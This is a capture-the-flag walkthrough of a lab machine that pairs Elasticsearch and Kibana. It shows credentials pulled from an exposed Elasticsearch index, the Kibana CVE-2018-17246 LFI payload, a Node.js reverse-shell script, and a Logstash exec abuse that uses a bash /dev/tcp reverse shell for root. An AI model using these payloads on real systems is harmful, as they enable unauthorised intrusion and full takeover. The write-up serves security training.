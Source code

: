 ![](./logo.png)

# USER

`nmap` shows a `http` server on port 80. This page displays a photo of a needle.

Running `strings` provides us with the base64 string:

Translating the string: 
```
(base64)    bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

(Spanish)   la aguja en el pajar es "clave"

(English)   the needle in the haystack is "key"
```
Port 9200 shows an `elasticsearch` instance

Running it with

```
http://10.10.10.115:9200/*
```

Shows all the tables available

```
http://10.10.10.115:9200/<table_name>/_search
```

Dumping all the data can be achieved using https://github.com/taskrabbit/elasticsearch-dump

Example command:
```
elasticdump --input=http://10.10.10.115:9200/quotes --output=./quotes.dump
```

Searching for the word `clave` gives us the lines:

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The `base64` gives:

```
user: security 
pass: spanish.is.key
```

These allow logging on via `ssh`. This lets us grab the `user.txt`!

# ROOT

This command exposes the `kibana` service to our local machine.
```
ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
```

This allows us to use our web browser to view the `kibana` console

Going to try this exploit `CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13`

Payload:
```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../<SHELL_LOCATION>
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(6868, "10.10.14.55", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Running enum scripts show us that there are three config files present in the `/etc/logstash/conf.d` that work with a service know as `logstash`.

There is an `input.conf`, `filter.conf` and an `output.conf`.

The `input.conf` defines the triggers. As can be seen below any logs placed in the path `"/opt/kibana/logstash_*"` will trigger the `logstash` service to pass the data to the `filter.conf`. 

```conf
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
```

The `filter.conf` then decides wether to pass the data onto the `output.conf`. The filter here checks if the contents matches the regex defined in the `match` section.

```conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
```

If there is a match it is passed to the `output.conf`. This file will then execute the command parsed in the `filter.conf`.

```conf
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```

Brining this all together means that running the command below will provide us with RCE and a `root` shell due to the command being excuted by `logstash`

```bash
echo "Ejecutar comando: bash -i >& /dev/tcp/10.10.14.55/7000 0>&1" > /opt/kibana/logstash_1
```

This payload works and provies us with a root shell!